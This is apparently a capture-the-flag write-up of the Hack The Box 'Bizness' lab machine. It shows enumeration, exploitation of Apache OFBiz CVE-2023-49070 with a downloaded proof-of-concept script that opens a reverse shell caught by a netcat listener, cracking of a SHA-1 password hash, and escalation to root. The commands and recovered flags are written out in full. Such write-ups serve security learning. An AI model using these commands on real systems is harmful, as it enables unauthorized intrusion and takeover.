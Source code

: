  
# Bizness

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/b394bd03-e005-41b0-bb83-60f236f052d4" />
</p>



Embrace the dawn of a fresh season as we unveil the latest additions to the gaming arena. Welcome to the exhilarating Season 4, where innovation and excitement collide. Leading the charge is the formidable Bizness, a dynamic machine that promises both challenge and reward. Boasting a lucrative 20-point bounty and an accessible easy difficulty level, Bizness beckons all daring adventurers. Without further ado, let's dive headfirst into the world of opportunities and embark on a thrilling journey – it's time to engage in some serious 'bizness'!

## Table of Contents

- [Setting the Stage](#setting-the-stage)
- [Enumeration with Nmap](#enumeration-with-nmap)
- [Exploring the Vast Horizons of the Web](#exploring-the-vast-horizons-of-the-web)
- [Art of Exploitation: Navigating Security Challenges](#art-of-exploitation-navigating-security-challenges)
- [User Flag](#user-flag)
- [Privilege Escalation: Elevating System Access Safely](#privilege-escalation-elevating-system-access-safely)
- [CVE-2023-49070](#cve-2023-49070)
- [Conclusion](#conclusion)




## Setting the Stage 
Before delving into the intricacies, our initial step involves the addition of the IP and domain to the crucial /etc/hosts file. This crucial setup ensures that the IP is recognized, laying the foundation for seamless interactions. Execute the command 'sudo nano /etc/hosts' to initiate this imperative configuration.

```bash
echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

## Enumeration with Nmap
Nmap serves as the indispensable compass, unveiling the intricacies of system architecture and potential vulnerabilities with its versatile commands

```bash
nmap -Pn -sC -sV 10.10.11.252
```
As we initiate enumeration, a preliminary port scan discloses the accessibility of ports 22, 80, and 443.
![Bizness](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/2e2cdf84-96c0-453e-acf2-083c71d1a947)


## Exploring the Vast Horizons of the Web .
Now let’s move to the next step for enumeration. Let’s use dirsearch tool to search for other endpoints.

```bash
sudo apt-get install dirsearch
dirsearch -u https://bizness.htb -e*
```

After using dirsearch we get login endpoints.

After doing directory enumeration we see there directory of /control/login 
![Bizness Login](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/681a5c2c-5923-4f93-9446-aaf5add44414)


## Art of Exploitation: Navigating Security Challenges :
"Upon entering the login page, it becomes evident that the system employs the Apache OFBiz web framework. Subsequent investigation yielded the following insights."



_There Vulnerability of ofbiz-CVE-2023–49070-RCE-POC_

- Link of exploitation: — https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main?tab=readme-ov-file


```bash
sudo update-alternatives — config java

use “ 1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode”
```

Further exploration revealed....
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

```bash
wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/main/exploit.py
```

Now we see that we can execute any command by using the above exploit . So, we try to get reverse shell.

## Executing the Payload

```bash
python3 exploit.py https://bizness.htb/ shell ip:4444
```

Subsequently, execute on a second terminal.
```bash
nc -lnvp 4444
```


then you will get user shell ....

## User Flag :

Upon successfully obtaining the reverse shell, navigating directories became a challenge. Fret not, as I've got you covered. Change the directory to /home/ofbiz, where you'll find a text file named user.txt. Simply execute 'cat' on the file, and voila! You've secured the user flag. 


```bash
ofbiz@bizness:/opt/ofbiz$ cd /home/ofbiz
cd /home/ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
d96f0aefb0311de8c1da1c174db554d7
```


We successfully secured the User flag as 'd96f0aefb0311de8c1da1c174db554d7' However, the journey to the root flag is yet to be completed. No need to worry, though—I've got your back.

Upon investigation, we uncovered the Derby database and a hash: '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN.' Breaking it down, '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN' signifies the use of the SHA-1 hashing algorithm ('$SHA$'), 'd' for salt, and the remaining string as the hashed value. Let's dive deeper into the data to uncover the next steps.


## Privilege Escalation: Elevating System Access Safely 

Execute this Python script to decode the SHA-1 hash.
Decode File Required : [Decode.py](10.10.11.252/decode.py)

```bash
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
```
```bash
python3 decode.py
```

After successfully decoding the SHA-1 hash with the provided Python script, the revelation of the password 'monkeybizness' marks a pivotal moment in our journey. Leveraging this newfound credential, we elevate our privileges by executing 'su' and entering the passphrase. Transitioning into the root directory, we discover the existence of a file named 'root.txt.' As we delve into its contents, the triumphant sight of the root flag brings our exploration to a gratifying conclusion. This process underscores the significance of careful navigation and strategic execution in the realm of privilege escalation, culminating in the attainment of the ultimate access level .

```bash
password :  'monkeybizness'
```

cat root.txt you will get root password.
```

ofbiz@bizness:~$ su root
su root
Password: monkeybizness

ls
user.txt
cd /root
ls
root.txt
cat root.txt
41b08f62f103ded31455f3f3a8be5cde

```

 <hr>
 </hr>

## CVE-2023-49070

 Pre-auth RCE in Apache Ofbiz 18.12.09. It's due to XML-RPC no longer maintained still present. This issue affects Apache OFBiz: before 18.12.10.  Users are recommended to upgrade to version 18.12.10

 Reference :  
 - https://nvd.nist.gov/vuln/detail/CVE-2023-49070
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49070
 

<p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/582" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6c750e80-d65b-4a0b-91f2-d67192dffee9" align="center" alt="Bizness-htb pwnd by Mr.Govind" />
   <a/>
</p>


## Conclusion

In conclusion, the exploration of Bizness showcased the integration of meticulous enumeration, vulnerability exploitation, and privilege escalation techniques. From the initial setup to the triumphant acquisition of the root flag, each step contributed to a comprehensive understanding of the machine's security landscape. The journey emphasized the importance of strategic thinking and demonstrated the successful navigation of challenges inherent in ethical hacking. As we bring this exploration to a close, it stands as a testament to the continuous learning and adaptability required in the dynamic field of cybersecurity. 
